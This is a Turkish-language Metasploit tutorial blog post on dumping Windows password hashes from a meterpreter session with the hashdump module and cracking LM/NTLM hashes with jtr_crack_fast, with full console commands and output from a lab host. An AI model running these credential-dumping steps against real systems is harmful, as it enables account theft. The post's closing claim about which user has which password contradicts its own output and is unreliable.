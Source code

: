 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## John the Ripper

John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.

Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.

Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.
```bash
msf auxiliary(handler) > use post/windows/gather/hashdump
msf post(hashdump) > set session 1
session => 1
 
msf post(hashdump) > run

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...
Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
> Post module execution completed
```

Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.
```bash
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run

> Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE (Sat Jul 16 19:59:04 2011)  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: D                (cred_6:2)
> Output: PASSWOR          (cred_6:1)
> Output: GG               (cred_1:2)
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V} - **||**|}
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 4 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:10 2011)  c/s: 6666K  trying: 89093 - 89092
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE (Sat Jul 16 19:59:21 2011)  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: password         (cred_6)
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:27 2011)  c/s: 64816K  trying: **||**|}
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 5 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:27 2011)  c/s: 7407K  trying: 89030 - 89092
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 4 password hashes with no different salts

[+] Cracked: Guest: (192.168.184.134:445)
[+] Cracked: rAWjAW2:password (192.168.184.134:445)
> Auxiliary module execution completed
msf auxiliary(jtr_crack_fast) >
```

Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
